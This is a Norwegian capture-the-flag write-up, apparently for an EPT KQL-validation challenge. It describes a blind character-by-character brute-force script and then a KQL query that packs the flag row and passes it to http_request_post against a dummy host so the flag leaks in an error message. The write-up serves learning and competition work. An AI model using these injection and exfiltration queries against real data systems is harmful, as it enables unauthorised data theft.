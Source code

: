 ```py
                word += letter
                print(word)
                if(letter == "}"): return word
                break
            else:
                print(letter)

brute("https://_uniqueid_-kqlvalidation.ept.gg/validate_kql", 'range n from 1 to toscalar(search * | where * contains "$$" and * contains "}" | count)*501 step 1', "EPT{6x+jd$")
```

Dette er en teoretisk løsning som ville fungert for korte flagg. Dessverre viste flagget seg å være for langt til å løse på denne måten. Dette er fordi det er lagt inn et internt delay på websiden som tvinger siden til å holde igjen i minst 3 sekunder før vi får svar. Den teoretiske tiden det ville tatt å finne flagget på denne måten vil derfor være:

```py
possibilities = len(string.digits + string.ascii_lowercase + "<>,./:*@'+-$_-?!}= ") # Antall tegn
time_pr_try = 3 # sekunder pr test
avg_time_pr_char = possibilities/2 * 3
flag_len = 188 - len("ept{" + "}") # (fant flagget på en annen måte senere, så vi vet lengden)
total_time = flag_len * avg_time_pr_char
```

Total tid blir 15097s eller 4t 11min.

Og ikke en gang da kan vi garantere at vi har rett, fordi søket kun matcher bokstaver i lowercase, så om det ikke er akseptert vil vi ikke få rett.


## Løsning 2

En annen løsning (antar dette er intended) er å utnytte at vi har plugins for å sende http requests. Det vet vi fordi det står under `/cluster_policies` på websiden.

Her kan vi enten velge å sette opp en server for å ta imot requesten, eller vi kan lage en request som feiler etter at vi har funnet flagget slik at flagget blir med i feilmeldingene. Først henter vi ut raden som inneholder flagget og gjør det om fra en tabellentry til en string:

```kql
toscalar(search * | where * contains "ept{" and * contains "}" | project p = pack_all())
```

Så setter vi stringen inn som parameter i en request:

```kql
evaluate http_request_post(
    strcat(
        "http://dum.my?", toscalar(search * | where * contains "ept{" and * contains "}" | project pack = pack_all())
    )
)
```

Som vi ser får vi flagget tilbake i en feilmelding, altså trenger vi aldri å sende requesten:
